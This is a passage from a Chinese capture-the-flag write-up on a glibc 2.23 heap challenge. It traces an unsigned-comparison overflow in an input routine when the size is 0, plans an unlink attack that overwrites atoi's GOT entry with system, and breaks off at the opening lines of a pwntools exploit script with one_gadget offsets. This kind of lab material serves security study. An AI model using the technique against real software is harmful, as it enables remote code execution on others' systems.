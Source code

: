 ```c
        }
      }
      else
      {
        puts("note has been deleted");
      }
    }
  }
  else
  {
    puts("Please add a note!");
  }
}
```
注意其中的`strncat`函数，其第3个参数是字符串拼接之后的最大长度，虽然这里传的是最大的无符号整数，但是并不意味着这里可以溢出，因为前面还有一个`v0[size - strlen(dest) + 14] = 0;`将要追加的内容截断了，因此漏洞点不在这里。

经过测试发现，在glibc 2.23版本中，`malloc(0)`会创建一个大小为0x20的chunk，此时我们的重点就放在了输入的函数中：
```c
unsigned __int64 __fastcall input(char *buffer, __int64 maxsize, char endchar)
{
  char buf; // [rsp+2Fh] [rbp-11h] BYREF
  unsigned __int64 i; // [rsp+30h] [rbp-10h]
  ssize_t v7; // [rsp+38h] [rbp-8h]

  for ( i = 0LL; maxsize - 1 > i; ++i )
  {
    v7 = read(0, &buf, 1uLL);
    if ( v7 <= 0 )
      exit(-1);
    if ( buf == endchar )
      break;
    buffer[i] = buf;
  }
  buffer[i] = 0;
  return i;
}
```

注意循环是`for ( i = 0LL; maxsize - 1 > i; ++i )`，查看汇编：
```asm
.text:0000000000400A28 loc_400A28:                             ; CODE XREF: input+1D↑j
.text:0000000000400A28                 mov     rax, [rbp+var_30]
.text:0000000000400A2C                 sub     rax, 1
.text:0000000000400A30                 cmp     rax, [rbp+var_10]
.text:0000000000400A34                 ja      short loc_4009DC
```

这里是ja指令，因此是无符号的比较，但如果传入的size为0的话，那么这里就相当于是溢出任意多个字节。

既然有这样一个漏洞，在2.23环境很容易想到unlink，毕竟本题elf没加PIE，我们知道堆地址是保存在什么地方的，因此unlink最方便。

我的做法是覆盖atoi的got表地址为system，然后在输出菜单之后直接输入`/bin/sh`即可。
```python
from pwn import *
context.log_level = 'debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 28072)
elf = ELF('./pwn')
libc = ELF('./libc-2.23.so')
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

one_gadgets = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

sla = lambda x, y: io.sendlineafter(x, y)
```